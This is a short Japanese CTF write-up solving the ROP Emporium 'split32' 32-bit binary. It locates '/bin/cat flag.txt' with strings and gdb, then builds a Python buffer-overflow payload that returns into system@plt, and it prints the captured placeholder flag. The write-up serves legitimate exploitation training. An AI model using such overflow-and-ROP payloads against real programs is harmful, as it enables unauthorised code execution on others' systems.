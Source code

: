 systemはあるので、

```
0x8048657 <usefulFunction+14>:  call   0x8048430 <system@plt>
```

"/bin/cat flag.txt"をスタックに積んで、systemのアドレスに遷移させる


stringsしてみると `/bin/cat flag.txt` が見つかる
```
~/ctf/practical-pwn/ROP-Emporium/split32:yyy@(*｡˃̵ω ˂̵｡) < strings split32
/lib/ld-linux.so.2
=&M3
libc.so.6
_IO_stdin_used
puts
stdin
printf
fgets
memset
stdout
stderr
system
setvbuf
__libc_start_main
__gmon_start__
GLIBC_2.0
PTRh
QVh{
UWVS
t$,U
[^_]
split by ROP Emporium
32bits
Exiting
Contriving a reason to ask user for data...
/bin/ls
;*2$"(
/bin/cat flag.txt <- Here :)
GCC: (Ubuntu 5.4.0-6ubuntu1~16.04.4) 5.4.0 20160609
crtstuff.c
```

```
gdb-peda$ find "/bin/cat flag.txt"
Searching for '/bin/cat flag.txt' in: None ranges
Found 1 results, display max 1 items:
split32 : 0x804a030 ("/bin/cat flag.txt")
```


python -c 'print "A" * 44 + "\x30\x84\x04\x08" + "AAAA" + "\x30\xa0\x04\x08"' |./split32
                              (system@plt)   (retn_addr)  ("/bin/cat flag.txt")

```
split by ROP Emporium
32bits

Contriving a reason to ask user for data...
> ROPE{a_placeholder_32byte_flag!}
zsh: done                              python -c 'print "A" * 44 + "\x30\x84\x04\x08" + "AAAA" + "\x30\xa0\x04\x08"' | 
zsh: segmentation fault (core dumped)  ./split32
```
